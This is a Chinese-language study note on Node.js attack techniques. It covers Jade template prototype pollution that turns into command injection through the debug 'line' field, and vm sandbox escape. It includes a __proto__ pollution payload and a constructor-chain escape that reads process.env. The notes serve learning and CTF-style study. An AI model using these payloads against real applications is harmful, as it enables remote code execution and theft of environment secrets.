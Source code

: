 ```javascript
{"__proto__":{"compileDebug":1,"self":1}}
```
```javascript
visit: function(node){
  var debug = this.debug;
  if (debug) {
    this.buf.push('jade_debug.unshift(new jade.DebugItem( ' + node.line
      + ', ' + (node.filename
        ? utils.stringify(node.filename)
        : 'jade_debug[0].filename')
      + ' ));');
  }
  // ...
  this.visitNode(node);
  if (debug) this.buf.push('jade_debug.shift();');
}
```
这里会node,line和nodefilename进行拼接，filename限制太多，选择污染line。<br />所以把line的值改成我们要注入的命令，就完成了命令注入。<br />正常情况下node.type值为tag/Block等等,然后调用相应函数.<br />污染的时候顺带type也得污染了
```javascript
visitCode 
visitBlockComment
visitComment
visitDoctype
visitMixinBlock
```
<a name="EJc0W"></a>
# vm沙盒逃逸
第一次接触沙盒这个概念，康康先。<br />Node.js提供了一个名为vm（虚拟机）的内置模块，用于创建沙箱环境来执行一些不受信任的代码。它的作用类似于浏览器中的iframe或Worker。<br />vm沙盒逃逸，就是拜托只能访问的vm上下文，获取全局变量global，然后rce.
```javascript
const util = require('util');
const vm = require('vm');
const sandbox = {
animal: 'cat',
count: 2
};
const script = new vm.Script('count += 1; name = "kitty";');
const context = vm.createContext(sandbox);
script.runInContext(context);
console.log(util.inspect(sandbox));
```
首先定义了一个sandboy对象，有两个属性。然后创建要给vm对象，并且设定了脚本内容，执行的时count+1,设立一个name=kitty的属性。vm.Script会返回对象。<br />随后又创立了一个createContext对象，该方法创建了一个新的沙盒环境，并将sandbox作为全局对象，script.runInContext(context)，以沙盒环境对象作为执行的作用域。最后检测sandbox。<br />util.inspect()是Node.js中提供的一个工具函数，用于将给定的对象转换为字符串。它通常用于调试和日志记录，将对象的内容转换为易于查看的字符串。
```javascript
const util = require('util');
  const vm = require('vm');
  global.globalVar = 3;
  const sandbox = { globalVar: 1 };
  vm.createContext(sandbox);
  vm.runInContext('globalVar *= 2;', sandbox);
  console.log(util.inspect(sandbox));
  console.log(util.inspect(globalVar)); 
```
这里globalVar分了两块，一块是当前作用域下的，另一块则是沙盒里面的，沙盒里面的给了sandbox，并存入沙盒环境，接着执行脚本，最后沙盒里面的glabalVar成了2，但当前全局域下的glabalVar没变。
```javascript
"use strict";
const vm = require("vm");
const y1 = vm.runInNewContext(`this.constructor.constructor('return process.env')()`);
console.log(y1);
```